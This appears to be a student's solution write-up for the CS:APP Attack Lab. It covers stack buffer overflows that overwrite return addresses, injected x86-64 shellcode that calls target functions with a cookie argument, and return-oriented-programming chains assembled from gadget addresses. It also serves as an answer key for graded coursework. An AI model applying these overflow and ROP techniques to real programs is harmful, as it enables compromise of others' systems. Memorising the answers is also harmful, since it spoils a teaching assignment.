




The answer bytes can be found in `./answer/<lv>.txt`.

## Lv 1
Overwrite `0x401976`(the real ret addr) with `0x4017c0`(the func `touch1` addr). 

The address can be examined with `x 0x28+$rsp` when the program is inside the function `getbuf`.

## Lv 2

Use gdb to inspect the following address:
- the address of `cookie`: `0x6044e4`
- the address of original ret address: `0x5561dca0`
- address of `touch2`: `0x4017ec`

Then we need a piece of injection code to excute the call to `touch2`. The injection code should start from the bottom of the memory space for `buf`, with a sequence of `nop`. Then it comes to the setting of the argument and ret address for calling `touch2`. 

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Then set the address for calling `<touch2>`: [`0x5561dc98`, +8] = `0x4017ec0000000000`, where is the top of the memory space for `buf`.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 98 dc 61 55 	mov    $0x5561dc98,%rsp
   8:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
   f:	48 8b bf e4 44 60 00 	mov    0x6044e4(%rdi),%rdi
  16:	c3                   	ret
```

The stack should be like:
```
    addr of original ret -> addr of injection (0x5561dc78)
0x5561dca0 ^^^
buf:
    addr of touch2 (0x4017ec)
0x5561dc98 ^^^
injection:
    ret
    movq 0x6044e4(%rdi), %rdi
    movq $0, %rdi
    movq $0x5561dc98, %rsp
    nop...
0x5561dc78^^^
```

## Lv 3

Similar to Lv2:
- the value of `cookie`: `0x59b997fa`
- the corresponding little-endian value for the string `'59b997fa'`: `0x6166373939623935`
- the address of original ret address: `0x5561dca0`
- address of `touch3`: `0x4018fa`

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Now we define the place start from the bottom of the memory space for `buf` (`0x5561dc78`) as the new start of stack.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 78 dc 61 55 	mov    $0x5561dc78,%rsp
   8:	48 bf 35 39 62 39 39 	movabs $0x6166373939623935,%rdi
   f:	37 66 61 
  12:	6a 00                	push   $0x0
  14:	57                   	push   %rdi
  15:	48 89 e7             	mov    %rsp,%rdi
  18:	48 c7 c0 fa 18 40 00 	mov    $0x4018fa,%rax
  1f:	50                   	push   %rax
  20:	c3                   	ret
```

## Lv 4

const:
- cookie value: `0x59b997fa`
- touch2: `0x4017ec`

gadget:
- popq %rax : `0x4019cc`
- movq %rax, %rdi: `0x4019c5`

stack:
```asm
# [any byte] * 0x28
addr: 0x4019cc
0x59b997fa
addr: 0x4019c5
addr: 0x4017ec
```

## Lv 5

Use ChatGPT to form the byte sequence from farm:




Find a gadget to save %rsp:
```shell
grep -P '48 89 e[0-7] (90 )*c3' < dumpr.clean.d
```
get:
- mov %rsp, %rax : `0x401a06`

Find gadgets to add something:
```shell
grep -P '48 8d (.. ){0,4}c3' < dumpr.clean.d
```
get:
- lea (%rdi, %rsi, 1), %rax : `0x4019d6`

Find gadgets to move %rax:
```shell
grep -P '48 89 c[0-7] (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movq %rax, %rdi : `0x4019c5`

Find gadgets to move something to %rsi:
```shell
grep -P '89 .[6e] (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movl %ecx, %esi : `0x401a13`

Find gadgets to move something to %ecx:
```shell
grep -P '89 [c-f](1|9) (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movl %edx, %ecx : `0x401a34`

Find gadgets to move something to %edx:
```shell
grep -P '89 [c-f](2|a) (.. ){0,4}c3' < dumpr.clean.d
```
get:
- movl %eax, %edx : `0x4019dd`

Finally, we can pop something to %eax:
- popq %rax : `0x4019cc`

The code be like:
```asm
mov %rsp, %rax : `0x401a06`
movq %rax, %rdi : `0x4019c5`
popq %rax : `0x4019cc`
movl %eax, %edx : `0x4019dd`
movl %edx, %ecx : `0x401a34`
movl %ecx, %esi : `0x401a13`
lea (%rdi, %rsi, 1), %rax : `0x4019d6`
movq %rax, %rdi : `0x4019c5`
call touch3
```

- the value of `cookie`: `0x59b997fa`
- the corresponding byte sequence encoding the string `'59b997fa'`: `35 39 62 39 39 37 66 61`

The stack should be like:
```
# [any byte] * 0x28
addr: 0x401a06
=== %rax is here ===
addr: 0x4019c5
addr: 0x4019cc
0x9*8=0x48
addr: 0x4019dd
addr: 0x401a34
addr: 0x401a13
addr: 0x4019d6
addr: 0x4019c5
addr: 0x4018fa (touch3)
35 39 62 39 39 37 66 61
```

Use ChatGPT to convert it:


